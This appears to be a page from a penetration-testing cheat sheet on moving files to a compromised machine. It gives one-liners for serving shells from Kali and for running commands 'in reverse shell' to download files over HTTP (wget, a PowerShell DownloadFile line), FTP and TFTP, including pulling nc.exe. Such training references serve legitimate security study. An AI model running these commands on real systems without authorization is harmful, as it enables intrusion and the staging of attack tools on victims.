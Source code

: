 File Transfer 


Simple Local Web Servers (for serving shells, etc)

    Run a basic http server
    python -m SimpleHTTPServer 80

    Run a basic Python3 http server
    python3 -m http.server

    Run a ruby webrick basic http server
    ruby -rwebrick -e "WEBrick::HTTPServer.new
    (:Port => 80, :DocumentRoot => Dir.pwd).start"

    Run a basic PHP http server
    php -S $ip:80
    
 Dowload to target machine    

    https://insekurity.wordpress.com/2012/05/15/file-transfer/
    https://www.cheatography.com/fred/cheat-sheets/file-transfers/
    https://blog.ropnop.com/transferring-files-from-kali-to-windows/
    https://linux.die.net/man/1/scp
    https://www.freebsd.org/cgi/man.cgi?fetch(1)
    https://curl.haxx.se/docs/manpage.html
    https://linux.die.net/man/1/wget


HTTP
 The most common file transfer method.
# In Kali
python -m SimpleHTTPServer 80


# In reverse shell - Linux
wget target/file


# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://target/file.exe','C:\Users\ user\Desktop\file.exe')"


FTP
This process can be mundane, a quick tip would be to be to name the filename as ‘file’ on your kali machine so that you don’t have to re-write the script multiple names, you can then rename the file on windows.
# In Kali
python -m pyftpdlib -p 21 -w
# In reverse shell
echo open target > ftp.txt
echo USER anonymous >> ftp.txt echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt
  https://www.infosectrain.com/
Page 19
 # Execute
ftp -v -n -s:ftp.txt


TFTP
Generic.
# In Kali
atftpd --daemon --port 69 /tftp
# In reverse shell
tftp -i target GET nc.exe
